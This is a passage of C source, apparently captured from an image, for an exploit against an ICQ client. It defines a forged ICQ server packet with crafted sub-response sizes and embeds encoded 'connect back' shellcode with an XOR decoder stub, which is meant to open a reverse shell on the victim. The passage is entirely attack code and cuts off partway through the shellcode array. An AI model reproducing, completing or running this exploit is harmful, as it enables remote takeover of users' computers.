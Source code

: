     char icq_header [] =
    "\x05\x00" // ICQ VERSION
    "\x00" // unused
    "\x00\x00\x00\x00" // Session ID
    "\x12\x02" // reply to SRV_MULTI_PACKET
    "\x00\x00\x00\x00" // SEQ_NUM1 and SEQ_NUM2
    "\x00\x00\x00\x00" // UIN Your (the client's) UIN
    "\x00\x00\x00\x00" // CHECKCODE
    "\x02" // SRV_MULTI Parameter Block 1 of 2
    // Number of individual responses
    "\x2c\x00" // Size of sub-response (44 bytes, little-endian)

    "\x05\x00" // ICQ VERSION
    "\x00" // unused
    "\x00\x00\x00\x00" // Session ID
    "\x6e\x00" // reply to SRV_USER_OLINE
    "\x00\x00\x00\x00" // SEQ_NUM1 and SEQ_NUM2
    "\x00\x00\x00\x00" // UIN Your (the client's) UIN
    "\x00\x00\x00\x00" // CHECKCODE
    "\x00\x00\x00\x00" // UIN of user changing status
    "\x01\x00\x00\x00" // Other user's IP address (1.0.0.0)
    "\x00\x00\x00\x00" // Other user's direct-connect port (default)
    "\x00"
    "\x00\x00\x00\x00"
    "\x00\x00\x00\x00"
    "\x00\x00"
    "\x41\x02" // SRV_MULTI Parameter Block 2 of 2
    // Size of sub-response (577 bytes)

    "\x05\x00" // ICQ VERSION
    "\x00" // unused
    "\x00\x00\x00\x00" // Session ID
    "\xde\x03" // reply to SRV_META_USER
    "\x00\x00\x00\x00" // SEQ_NUM1 and SEQ_NUM2
    "\x00\x00\x00\x00" // UIN Your (the client's) UIN
    "\x00\x00\x00\x00" // CHECKCODE
    "\x00\x00\x00\x01"
    "\x00\x00\x01\x00"
    "\x00\x01\x00\x00"
    "\x1e\x02";


    struct sockaddr_in addr, local;
    char *bindHost = NULL;
    unsigned short port;
    /*
    * hsj's connect back shellcodes
    */
    char shellcode [] =
    /* decoder */
    "\xeb\x02\xeb\x05\xe8\xf9\xff\xff\xff\x58\x83\xc0\x1b\x8d\xa0\x01"
    "\xfc\xff\xff\x83\xe4\xfc\x8b\xec\x33\xc9\x66\xb9\x99\x01\x80\x30"
    "\x93\x40\xe2\xfa"
    /* code */
    "\x7b\xe4\x93\x93\x93\xd4\xf6\xe7\xc3\xe1\xfc\xf0\xd2\xf7\xf7\xe1"
    "\xf6\xe0\xe0\x93\xdf\xfc\xf2\xf7\xdf\xfa\xf1\xe1\xf2\xe1\xea\xd2"
    "\x93\xd0\xe1\xf6\xf2\xe7\xf6\xc3\xe1\xfc\xf0\xf6\xe0\xe0\xd2\x93"
    "\xd0\xff\xfc\xe0\xf6\xdb\xf2\xfd\xf7\xff\xf6\x93\xd6\xeb\xfa\xe7"
    "\xc7\xfb\xe1\xf6\xf2\xf7\x93\xe4\xe0\xa1\xcc\xa0\xa1\x93\xc4\xc0"
    "\xd2\xc0\xe7\xf2\xe1\xe7\xe6\xe3\x93\xc4\xc0\xd2\xc0\xfc\xf0\xf8"
    "\xf6\xe7\xd2\x93\xf0\xff\xfc\xe0\xf6\xe0\xfc\xf0\xf8\xf6\xe7\x93"
    "\xf0\xfc\xfd\xfd\xf6\xf0\xe7\x93\xf0\xfe\xf7\x93\xc9\xc1\x28\x93"
    "\x93\x63\xe4\x12\xa8\xde\xc9\x03\x93\xe7\x90\xd8\x78\x66\x18\xe0"
    "\xaf\x90\x60\x18\xe5\xeb\x90\x60\x18\xed\xb3\x90\x68\x18\xdd\x87"
    "\xc5\xa0\x53\xc4\xc2\x18\xac\x90\x68\x18\x61\xa0\x5a\x22\x9d\x60"